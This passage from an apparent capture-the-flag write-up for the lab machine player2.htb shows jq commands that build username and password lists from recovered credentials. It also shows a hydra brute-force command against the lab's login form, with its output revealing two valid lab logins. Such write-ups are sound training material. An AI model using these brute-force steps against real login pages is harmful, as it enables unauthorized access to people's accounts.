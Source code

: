 

#### Identify Valid Creds

With creds, I first tried SSH, but none worked. Then I tried the login
form at `http://product.player2.htb`. The first one I tried didn't work,
so I decided to automate. I created username and password lists:



    root@kali# cat creds.json | jq -r .name | sort -u > users
    root@kali# cat creds.json | jq -r .pass | sort -u > passwords



Now I'll run `hydra` to try all combinations of username and password.
The command breaks down as:

-   `-L users` - list of usernames to try
-   `-P passwords` - list of passwords to try
-   `product.player2.htb` - site to try
-   `http-post-form` - type of brute force
-   `"/:username=^USER^&password=^PASS^&Submit=Sign+in:alert"`
    -   `/` - path to POST to
    -   `username=^USER^&password=^PASS^&Submit=Sign+in` - POST
        parameters, where `^USER^` and `^PASS^` will be replaced by
        usernames and passwords from the respective input lists
    -   `alert` - text to look for in the response that indicates
        failure



    root@kali# hydra -L users -P passwords product.player2.htb http-post-form "/:username=^USER^&password=^PASS^&Submit=Sign+in:alert"
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-01-20 14:31:49
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
    [DATA] attacking http-post-form://product.player2.htb:80/:username=^USER^&password=^PASS^&Submit=Sign+in:alert
    [80][http-post-form] host: product.player2.htb   login: 0xdf   password: XHq7_WJTA?QD_?E2
    [80][http-post-form] host: product.player2.htb   login: mprox   password: tR@dQnwnZEk95*6#
    1 of 1 target successfully completed, 2 valid passwords found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-01-20 14:31:50



So two of the username / password combinations work. When I try one
manually, it does work, and I'm taken to the second stage of login.

#### Get OTP Backup Codes

One giving good creds at the username / password form, I'm given another
check:
